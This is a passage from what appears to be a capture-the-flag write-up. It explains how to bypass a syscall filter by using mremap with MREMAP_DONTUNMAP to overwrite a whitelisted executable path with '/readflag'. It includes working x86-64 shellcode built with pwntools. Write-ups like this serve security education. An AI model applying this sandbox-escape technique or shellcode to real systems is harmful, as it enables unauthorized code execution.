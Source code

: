 Now that we have ELF base we know the address of the `ALLOWED_EXE` variable we're trying to control. It's time to find a way to write to it. 

`mmap`, `mprotect`, `munmap`, and `ptrace` are all blocked so we need to rely on something else to control the `"/bin/id"` string. Fortunately, `mremap`, a syscall used for moving a memory page, has been left unrestricted.

The trick here is that we can move a memory page (which we control) containing some other string to the memory page containing the `ALLOWED_EXE` variable. This way we can effectively control the contents of the data section. 

[From the `mremap` manpage](https://man7.org/linux/man-pages/man2/mremap.2.html) under the `MREMAP_DONTUNMAP` flag description: 
> This flag, which must be used in conjunction with MREMAP_MAYMOVE, remaps a mapping to a new address but does not unmap the mapping at old_address.

Thus, our goal is to run the equivalent of:
```c
mremap(our_memory, 0x1000, 0x2000);
mremap(our_memory_page (our_memory + 0x1000), 0x1000, 0x1000, MREMAP_DONTUNMAP, page_with_allowed_exe);
```

The `page_with_allowed_exe` page start is `0x50` bytes before the `ALLOWED_EXE` var we are trying to control, so we'll have to write our desired string `0x50` bytes after the start of the page we control so they align after remapping.

I first tried to do this with `"/bin/sh"`, but unfortunately `/bin/sh` itself uses restricted syscalls, so executing it would always fail. Thankfully, the challenge had a provided binary at `/readflag` which gives us the flag without using any restricted syscalls, so we just have to replace `"/bin/id"` with that.

The code for that looks like this:
```python
set_var = """
sub rdi, 0x4c00     <- get ELF base
add rdi, 0x2000     <- get memory page to control
mov rbx, rdi        <- save for later use
mov rdi, 0xc0de000
mov rsi, 0x1000
mov rdx, 0x2000
mov rax, 0x19
syscall             <- mremap(our_memory, 0x1000, 0x2000)

mov rsp, 0xc0de000 + 0x1000 + 0x50 + 0x10
mov rdi, 0x0000000000000067
push rdi
mov rdi, 0x616c66646165722f
push rdi            <- write "/readflag" to our memory page
mov rdi, rsp

sub rdi, 0x50
mov rdx, 0x1000
mov r10, 3          <- MREMAP_DONTUNMAP flag
mov r8, rbx
mov rax, 0x19
syscall             <- remap our controlled page to page of ALLOWED_EXE
"""

shellcode += asm(set_var)
```
